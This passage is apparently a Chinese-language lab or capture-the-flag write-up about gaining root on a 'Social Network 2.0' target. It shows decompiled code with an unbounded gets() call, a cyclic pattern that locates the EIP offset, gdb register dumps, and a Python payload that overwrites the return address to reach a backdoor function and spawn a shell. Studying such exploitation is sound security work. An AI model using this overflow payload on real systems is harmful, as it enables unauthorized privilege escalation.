int __cdecl main(int argc, const char **argv, const char **envp)
{
  char src[4]; // [esp+0h] [ebp-ACh] BYREF
  _BYTE v5[96]; // [esp+4h] [ebp-A8h] BYREF
  FILE *v6; // [esp+64h] [ebp-48h] BYREF
  int v7; // [esp+68h] [ebp-44h] BYREF
  int v8; // [esp+6Ch] [ebp-40h] BYREF
  char s[25]; // [esp+73h] [ebp-39h] BYREF
  int v10; // [esp+8Ch] [ebp-20h]
  FILE *stream; // [esp+90h] [ebp-1Ch]
  char *v12; // [esp+94h] [ebp-18h]
  int *p_argc; // [esp+9Ch] [ebp-10h]

  p_argc = &argc;
  *(_DWORD *)src = 16718;
  memset(v5, 0, sizeof(v5));
  stream = fopen("employee_records.txt", "a");
  puts("Welcome to Add Record application\nUse it to add info about Social Network 2.0 Employees");
  printf("Employee Name(char): ");
  fgets(s, 25, stdin);
  printf("Years worked(int): ");
  __isoc99_scanf("%d", &v8);
  printf("Salary(int): ");
  __isoc99_scanf("%d", &v7);
  printf("Ever got in trouble? 1 (yes) or 0 (no): ");
  __isoc99_scanf("%d", &v6);
  do
    v10 = getchar();
  while ( v10 != 10 && v10 != -1 );
  if ( v6 == (FILE *)1 )
  {
    printf("Explain: ");
    gets(src);
    vuln(src);
  }
  puts("Employee data you've entered:");
  printf("Name %s\nYears %d, Salary %d, Trouble %d, Comments %s\n", s, v8, v7, v6, src);
  v12 = src;
  stream = v6;
  fprintf(v6, "Name %s\nYears %d, Salary %d, Trouble %d, Comments %s\n", s, v8, v7);
  fclose(stream);
  return 0;
}
```

根据之前写 PWN 题的经验，`gets(src);` 这里完全不限制输入长度，考虑从这里栈溢出攻击

这里需要构造一个足够长的字符串，使得 `eip` 寄存器的值被顺利覆盖，并且覆盖是可控的

不妨构造这样的字符串，确保任取四位字符对应的 ASCII 结果不同：

```
aaaaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaaaAaaaBaaaCaaaDaaaEaaaFaaaGaaaHaaaIaaaJaaaKaaaLaaaMaaaNaaaOaaaPaaaQaaaRaaaSaaaTaaaUaaaVaaaWaaaXaaaYaaaZ...
```

然后进行测试：

```
Explain: aaaaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaaaAaaaBaaaCaaaDaaaEaaaFaaaGaaaHaaaIaaaJaaaKaaaLaaaMaaaNaaaOaaaPaaaQaaaRaaaSaaaTaaaUaaaVaaaWaaaXaaaYaaaZ

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xffffdc1e ("aaaaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaaaAaaaBaaaCaaaDaaaEaaaFaaaGaaaHaaaIaaaJaaaKaaaLaaaMaaaNaaaOaaaPaaaQaaaRaaaSaaaTaaaUaaaVaaaWaaaX"...)
EBX: 0x61616e61 ('anaa')
ECX: 0xffffdd40 ("aaaXaaaYaaaZ")
EDX: 0xffffdce2 ("aaaXaaaYaaaZ")
ESI: 0xf7fc2000 --> 0x1d4d6c 
EDI: 0xffffdce0 ("aWaaaXaaaYaaaZ")
EBP: 0x61616f61 ('aoaa')
ESP: 0xffffdc60 ("aqaaaraaasaaataaauaaavaaawaaaxaaayaaazaaaAaaaBaaaCaaaDaaaEaaaFaaaGaaaHaaaIaaaJaaaKaaaLaaaMaaaNaaaOaaaPaaaQaaaRaaaSaaaTaaaUaaaVaaaWaaaXaaaYaaaZ")
EIP: 0x61617061 ('apaa')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
```

`EIP` 的值为 `apaa`，我们知道了这四位字符串对应的位置就是写入返回地址的位置，尝试注入后门函数的首地址 `0x08048676`，虽然无法输入 `\x86` 这样的原始十六进制，但是可以通过 payload 脚本实现

```
python -c "import struct; print('1\n1\n1\n1\n' + 'aaaaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaa' + '\x76\x86\x04\x08')" > payload
```

在 gdb 中试一试：

```
gdb-peda$ r < payload
Starting program: /home/socnet/add_record < payload
Welcome to Add Record application
Use it to add info about Social Network 2.0 Employees
[New process 3317]
process 3317 is executing new program: /bin/dash
[New process 3318]
process 3318 is executing new program: /bin/bash
[Inferior 3 (process 3318) exited normally]
Warning: not running or target is remote
```

发现多了两个 `/bin/bash` 进程，说明栈溢出攻击成功了，在实际程序中检验



---

## 渗透结果

成功获得了 root 账户权限，修改密码在靶机登录



---

## 问题分析/启示

1. 对 Linux 程序进行栈溢出攻击时，不易判断地址覆盖点

   使用经过特殊构造的字符串（AAAB 式），确保可以通过 EIP 的 4 位输出定位覆盖点

---

## 其他

获取 root 权限用时约 5h
